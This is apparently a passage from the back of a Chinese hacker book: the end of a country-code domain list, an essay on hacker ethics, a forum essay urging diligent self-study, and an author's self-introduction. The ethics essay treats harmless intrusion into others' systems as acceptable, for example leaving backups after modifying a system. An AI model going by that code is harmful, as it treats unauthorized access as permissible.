- lt : Lithuania，立陶宛
- lu : Luxembourg，卢森堡
- lv : Latvia，拉脱维亚
- ly : Libya，利比亚
- ma : Morocco，摩洛哥
- mc : Monaco，摩纳哥
- md : Moldova，摩尔多瓦
- mg : Madagascar，马达加斯加
- mh : Marshall Islands，马绍尔群岛
- ml : Mali，马里
- mm : Myanmar，缅甸
- mn : Mongolia，蒙古
- mo : Macau，澳门
- mp : Northern Mariana Islands，北马里亚纳群岛
- mq : Martinique，马提尼克岛（法属）
- mr : Mauritania，毛里塔尼亚
- ms : Montserrat，蒙塞拉特岛
- mt : Malta，马耳他
- mv : Maldives，马尔代夫
- mw : Malawi，马拉维
- mx : Mexico，墨西哥
- my : Malaysia，马来西亚
- mz : Mozambique，莫桑比克
- na : Namibia，纳米比亚
- nc : New Caledonia，新喀里多尼亚
- ne : Niger，尼日尔
- nf : Norfolk Island，诺福克岛
- ng : Nigeria，尼日利亚
- ni : Nicaragua，尼加拉瓜
- nl : Netherlands，荷兰
- no : Norway，挪威
- np : Nepal，尼泊尔
- nr : Nauru，瑙鲁
- nt : Neutral Zone，中立区
- nu : Niue，纽埃
- nz : New Zealand，新西兰
- om : Oman，阿曼
- pa : Panama，巴拿马
- pe : Peru，秘鲁
- pf : French Polynesia，法属玻利尼西亚
- pg : Papua New Guinea，巴布亚新几内亚
- ph : Philippines，菲律宾
- pk : Pakistan，巴基斯坦
- pl : Poland，波兰
- pm : St. Pierre and Miquelon
- pn : Pitcairn Island，皮特克恩岛
- pr : Puerto Rico，波多黎各
- pt : Portugal，葡萄牙
- pw : Palau，帕劳
- py : Paraguay，巴拉圭
- qa : Qatar，卡塔尔
- re : Reunion Island，留尼汪岛（法属）
- ro : Romania，罗马尼亚
- ru : Russian Federation，俄罗斯联邦
- rw : Rwanda，卢旺达
- sa : Saudi Arabia，沙特阿拉伯
- sb : Solomon Islands，所罗门群岛
- sc : Seychelles，塞舌尔
- sd : Sudan，苏丹
- se : Sweden，瑞典
- sg : Singapore，新加坡
- sh : St. Helena，海伦娜
- si : Slovenia，斯洛文尼亚
- sj : Svalbard and Jan Mayen Islands
- sk : Slovakia，斯洛伐克
- sl : Sierra Leone，塞拉利昂
- sm : San Marino，圣马力诺
- sn : Senegal，塞内加尔
- so : Somalia，索马里
- sr : Suriname，苏里南
- st : Sao Tome and Principe
- su : USSR，苏联
- sy : Syrian Arab Republic，叙利亚
- sz : Swaziland，斯威士兰
- tc : Turks and Caicos Islands
- td : Chad，乍得
- tf : French Southern Territories，法属南半球领地
- tg : Togo，多哥
- th : Thailand，泰国
- tj : Tajikistan，塔吉克斯坦
- tk : Tokelau，托克劳群岛
- tm : Turkmenistan，土库曼斯坦
- tn : Tunisia，突尼斯
- to : Tonga，汤加
- tp : East Timor，东帝汶
- tr : Turkey，土耳其
- tt : Trinidad and Tobago
- tv : Tuvalu，图瓦鲁
- tw : Taiwan，台湾
- tz : Tanzania，坦桑尼亚
- ua : Ukrainian SSR，乌克兰
- ug : Uganda，乌干达
- uk : United Kingdom，英国
- us : United States，美国
- uy : Uruguay，乌拉圭
- va : Vatican City State，梵蒂冈
- vc : St. Vincent and the Grenadines
- ve : Venezuela，委内瑞拉
- vg : Virgin Islands，维京群岛
- vn : Vietnam，越南
- vu : Vanuatu，瓦努阿图
- wf : Wallis and Futuna Islands
- ws : Samoa，西萨摩亚
- ye : Yemen，也门
- yu : Yugoslavia，南斯拉夫
- za : South Africa，南非
- zm : Zambia，赞比亚
- zr : Zaire，扎伊尔
- zw : Zimbabwe，津巴布韦

# 我心中的黑客道德

江海客

从电话时代将信息时代的巨幕逐渐拉开的时候算起，各色各样善于将个人的技术优势凌驾于社会规则之上的黑客组织和个人，已经将其深刻封印于时代的铭柱之上。他们像传说中脚踩波罗二世、驾驶着技术的马车巡游在世界的每个角落。可以说，黑客早就完成了自我的塑造，早已不是依靠盗取几个人长途电话或是突破个把防火墙便能获得满足的快乐。实际上，大到国际政治，小到个人隐私，我们如今已经很难指出哪里还听不到黑客们的声音，哪里还见不到黑客的身影。

因为黑客文化源自于美国与欧洲，它有特定的历史环境和社会背景，绝对不仅仅是技术问题。在中国，国情跟美国不同，跟其他地方也不同，几乎可以说不具备美国那样辉煌黑客文化的土壤。但无论国籍、种族有多大的差异，黑客应遵循的道德不会有太大的差异，因为共同的道德标准本身就大致体现了人类群体交往的统一。

## 黑客的目标

- 执着技术：技术追求永远是第一追求。
- 追求自由：寻求在虚拟信息世界更大的生存空间和更高的权限，开放，致力于信息高度共享。
- 虚心与独立：既要有虚心学习的态度，又要有独立钻研的精神，向他人学习，但不依靠他人。
- 半封闭：积极的私下交流，谨慎地公开发布信息。
- 优先权：不随意泄露发现的漏洞，优先将漏洞通知系统管理员或相应软件开发商。
- 继承与发展：有选择地系统培养更年轻的人，但要考察潜质与道德水准。在向新入门者传授技术的同时，要渗透道德。

## 黑客的立场

- 爱国：个人利益永远服从国家利益。
- 政治中立：远离政治与权力斗争（与上一项并不矛盾）。
- 同情弱者：站在任何形式霸权的对立面。
- 不媚俗：反对等级、秩序与传统。

## 黑客的原则

- 隔离现实：严格分清作为网络 ID 和现实中人的区别，不利用网络手段解决个人恩怨。
- 拒绝重复：不断寻找更新的发现，不重复利用某个漏洞去尝试入侵。
- 善意：提醒从不破坏；如果需要修改系统，要为用户留下备份。不以入侵行为牟利；黑客行为与商业利益无关，不参与商业竞争。
- 工具底线：不发布以破坏为目的的工具。
- 低调：克制自我表现的欲望，抵制商业炒作。

## 黑客的学习与交流

## 黑客的归宿

角色认知：黑客不是一种职业，更无法终身从事。

自然回归：黑客或早或晚都会回归主流社会，因此必须懂得法制和社会行为的力量。更多的黑客必然将走向科研机构的研究人员、安全产品开发者和安全服务提供者，甚至成为安全团队的组织者。对于这些机会，既不要拒绝，也不要刻意追求，应当在心理和行为规范适合的时候自然转化。

但在世人眼中，黑客这个概念不可避免走向两个极端：被神化时俨然是无所不能的自由化身，他所做的一切都值得宣传；被贬毁时简直是不遗余力反社会的恶魔，恨不得统统杀之后快。

应该提醒一句：世上万物是复杂的，黑客的组成也并非如此单纯。

很多人问如何入门、如何入侵“入门”，我却不知道要问的是哪门、什么门。很少把某些所谓“高面”的帖子看完。我一看这类文章就有体会：比如密码的 sniffer 原理，这种以为自己对 sniffer 原理很清楚的，所以也就不曾仔细看过袁哥的这篇。

后来有天晚上和袁哥讨论，如何通过端口嗅探直接获取 MAC 地址，为什么 arpsniff 可以获得真正的 MAC 地址，而不受更改 MAC 地址技术的影响，如何在 Linux 下获得真正的 MAC 地址。我一直对 Linux 下的端口嗅探写法存疑虑，总觉得在保护模式下的端口都做了什么鬼斧神工……结果袁哥问了我一句：你仔细看我写的文章没有？我愣了。最近因为要印刷旧帖，我整理以前的很多文档，被迫认真过滤它们，才发现袁哥的文笔和我又有所认识。再后来整理到 tt 的几篇谈缓冲区溢出的，在其上面确实有关于 Solaris 可装载内核模块，那就更觉得惭愧了。

以前说“书非借不能读”，留在硬盘上却不读。某些文章推荐了，也推荐了几个，好好看过呢？WUNP 我算是认真看过，APUE 就没有那么认真看过，写过读书笔记。道格拉斯的卷 I、卷 II 就只断续看过。

唉呀——现在文本版已经很多，多少经典书籍了。看 Richard Stevens 的书加了不少旁注了，而老 II 的一半从卷 III 就没写完……

cloudsky（小四）  
武汉白云黄鹤站

# 你尽力了吗？

而很多技术文章，如果搞到手了就懒得再看，却不知道这浪费了多少资源，忽略了多少资源。BBS 是真正能学到东西的地方吗？rain 说不是的，我说也不是的。不过这里能帮助你的视野，能得到对大方向的指引，足够了。我一直都希望大家从这里学到的不是技术本身，而是学习方法和一种不再浮躁的成熟。

很多技术，明天就会过时；如果你掌握的是学习方法，那你还有下一个机会；如果你掌握的仅仅是这个技术本身，你就“没有机会了”。其实我对系统安全是真不懂，因为我一直很喜欢看程序与程序根本语义，也没有能力攻击谁谁的主机/站点。我所能在这里做的是，为大家提供一个方向，一种让你的思考归于成熟的路线。

如果你连《Windows NT 设备驱动程序编写》《Win9x 系统编程》都没有看过，却要写个什么蠕虫、自己的木马，搞笑。如果你看都不看汇编语言，偏要问 exploit code 的原理，那我无法回答，也不想回答你。

总有人责问，要讨个说法云云，说什么提问题没有回答。不回答已经是正确的处理方式了，至少没有回你一句“看书去”，对不对？至少没在版面让你生闷气。Unix 的 man 手册你要都看完了，想不会 Unix 都不行了；微软的 MSDN、Platform SDK、DDK 你要看完了，你想把 Win 编程想象得稍微困难点都找不到理由。

还是那句话，一个程序员做到 W. Richard Stevens 那份上，做到连几乎全世界的顶级 hacker 们专门撰文怀念，但生前我们不曾见他喜欢攻击。想想看，那是一种什么样的境界，那是一份什么样的成熟。

我们可以大肆讨论技术问题，可以就技术问题进行激烈的、卓有成效的讨论，却无法进行一些基础知识、资源信息的版面重复。我刚在前面贴了一堆 isbase 的文章，开头就是主页知识，却在后面立刻问“堆栈之页”在哪里？前面刚刚讨论过如何修改 MAC 地址，后面马上又来一个。前后相差不过 3 篇文章。这样说，我已经是很多朋友忍耐力的优异表现了。

很多东西都是可以举一反三的，vertex 的 ids，或 packetstorm 天天追踪更新。你要是看了 THC 的那三篇，觉得理解一个就理解了一些，都是内核模块里的手脚。你不看你怎么知道。我不想在这里陷入具体技术问题的讨论中去；你要是觉得该做点什么了，就自己去看、自己去找。没有什么人摆什么架子，也没有什么人生来就是干这个的。你自己问自己：尽力了吗？

# 作者自述

作者梁伟，网名 python，在校大学生。

2000 年开始接触计算机网络，但当时只是停留在初步阶段聊天。2001 年 9 月份，开始学习网络知识，从 MCSE 和 MCDBA 开始。从这里，我获得了很多以前不了解甚至都没有见过的知识，并且从此我开始对网络着迷，相继又学习了 CCNA 和 CIW，在后来又自修了 Microsoft Windows 2000 网络安全设计。

自从第一次完成了一个简单的 hacker 任务后，从此对 hacker 开始着迷。

为了实现自己的目标，开始进一步学习网络知识。也就是从这个时候起，开始捡起以前丢掉的那些东西，重学以前所有的旧知识，并且开始加固自己的基础。在不到半年的时间，通读了八本权威的 TCP/IP 相关书籍。

回想那些日子，是痛苦的，但也是美好的。因为每读一本新书，我就会发现自己的新问题，并且从中还会有意想不到的意外收获，所以每天也都沉浸在丰收的喜悦中。

由于在校读书的原因，一直因为自己的一些想法无法实现而感到苦闷。但是，自从和《黑客 X 档案》“亲密接触”后，借助《黑客 X 档案》实现了自己很多的想法，并且还获得了《黑客 X 档案》特约编辑的职位。

这次，这本书是我和 X 案愉快合作一年后的一个大作，也是我的处女作。因此，我也是倾尽心血，尽力做到最好。希望大家能喜欢。读者的肯定，就是对我付出的最好回报，至少这样可以对得起我无数个不眠之夜 ^^